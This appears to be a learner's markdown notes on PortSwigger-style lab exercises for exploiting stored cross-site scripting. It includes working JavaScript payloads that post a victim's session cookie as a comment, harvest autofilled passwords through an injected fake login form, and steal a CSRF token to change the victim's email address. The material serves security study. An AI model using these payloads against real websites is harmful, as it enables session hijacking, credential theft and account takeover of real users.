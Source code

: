 # Exploiting cross-site scripting vulnerabilities
- The traditional way to prove that you've found a cross-site scripting vulnerability is to create a popup using the alert() function. 
- This isn't because XSS has anything to do with popups; it's simply a way to prove that you can execute arbitrary JavaScript on a given domain. 
- You might notice some people using alert(document.domain). 
- This is a way of making it explicit which domain the JavaScript is executing on.
- Sometimes you'll want to go further and prove that an XSS vulnerability is a real threat by providing a full exploit. 
- In this section, we'll explore three of the most popular and powerful ways to exploit an XSS vulnerability.

# Exploiting cross-site scripting to steal cookies
- Stealing cookies is a traditional way to exploit XSS. 
- Most web applications use cookies for session handling. 
- You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your own domain, then manually inject the cookies into the browser and impersonate the victim.
- In practice, this approach has some significant limitations:
    - The victim might not be logged in.
    - Many applications hide their cookies from JavaScript using the HttpOnly flag.
    - Sessions might be locked to additional factors like the user's IP address.
    - The session might time out before you're able to hijack it.

# LAB: Exploiting cross-site scripting to steal cookies
- This lab contains a stored XSS vulnerability in the blog comments function. 
- A simulated victim user views all comments after they are posted. 
- To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.
- To  solve this lab, We need to use burp collaborator, But unfotunately, I don't have burpsuite.
- I was able to see someone who used CSRF to solve the LAB
- Yeah CSRF! When a site is vulnerable to XSS no csrf protection can save it
- Here is the final code I used:
```
<script>
    window.addEventListener("DOMContentLoaded", function() {
        
        var csrfToken = document.getElementsByName("csrf")[0].value;
        var myform = new FormData();

        myform.append("csrf",  csrfToken)
        myform.append("postId", 2)
        myform.append("comment", document.cookie)
        myform.append("name", "You have been hacked")
        myform.append("email", "bybeejay@email.com")
        myform.append("website", "https://bybeejay.com")

        fetch("/post/comment", {
            method: "POST",
            mode: "no-cors",
            body: myform
        })
    })
</script>
```
- This code made it easy to get the cookie session from the victim user.

# Exploiting cross-site scripting to capture passwords
- These days, many users have password managers that auto-fill their passwords. 
- You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain. 
- This technique avoids most of the problems associated with stealing cookies, and can even gain access to every other account where the victim has reused the same password.
- The primary disadvantage of this technique is that it only works on users who have a password manager that performs password auto-fill. 
- (Of course, if a user doesn't have a password saved you can still attempt to obtain their password through an on-site phishing attack, but it's not quite the same.)

# Lab: Exploiting cross-site scripting to capture passwords
- This lab contains a stored XSS vulnerability in the blog comments function. 
- A simulated victim user views all comments after they are posted. 
- To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.
- This lab is on the basis that victim users have password autofill on
- To solve this lab we can solve without using collaborator, we have to use csrf to solve this lab too
- Here is the CSRF code
```
<input type="text" name="username" placeholder="Enter Username">
<input type="password" name="password" placeholder="Enter Password" onchange="fillPassword()">

<script>
    function fillPassword() {
        var csrfToken = document.getElementsByName('csrf')[0].value;
        var username = document.getElementsByName('username')[0].value;
        var password =  document.getElementsByName('password')[0].value;

        var formData = new FormData();
        formData.append('csrf', csrfToken);
        formData.append('postId', 8);
        formData.append('comment', `${username} : ${password}`)
        formData.append('name', 'Victimized');
        formData.append('email', 'bee.mali.com');
        formData.append('webiste', 'https://example.com');

        fetch('/post/comment', {
            method: 'POST',
            mode: 'no-cors',
            body: formData,

        })
    }
</script>
```

# Exploiting cross-site scripting to bypass CSRF protections
- XSS enables an attacker to do almost anything a legitimate user can do on a website. 
- By executing arbitrary JavaScript in a victim's browser, XSS allows you to perform a wide range of actions as if you were the victim user. 
- For example, you might make a victim send a message, accept a friend request, commit a backdoor to a source code repository, or transfer some Bitcoin.
- Some websites allow logged-in users to change their email address without re-entering their password. - If you've found an XSS vulnerability on one of these sites, you can exploit it to steal a CSRF token. With the token, you can change the victim's email address to one that you control. 
- You can then trigger a password reset to gain access to the account.
- This type of exploit combines XSS (to steal the CSRF token) with the functionality typically targeted by CSRF. 
- While traditional CSRF is a "one-way" vulnerability, where the attacker can induce the victim to send requests but cannot see the responses, XSS enables "two-way" communication. 
- This enables the attacker to both send arbitrary requests and read the responses, resulting in a hybrid attack that bypasses anti-CSRF defenses.

# Note
- CSRF tokens are ineffective against XSS because XSS lets attackers read token values directly from responses.

# Lab: Exploiting XSS to bypass CSRF defenses
- This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to steal a CSRF token, which you can then use to change the email address of someone who views the blog post comments.
```
<script>
    window.addEventListener("DOMContentLoaded", function() {
        
        var csrfToken = document.getElementsByName("csrf")[0].value;
        var myform = new FormData();

        myform.append("email", "bybeejay@email.com")
        myform.append("csrf",  csrfToken)

        fetch("/my-account/change-email", {
            method: "POST",
            mode: "no-cors",
            body: myform
        })
    })
</script>
```
- The lab was solved on first attempt, thanks to the previous lab and new knowledge of CSRF
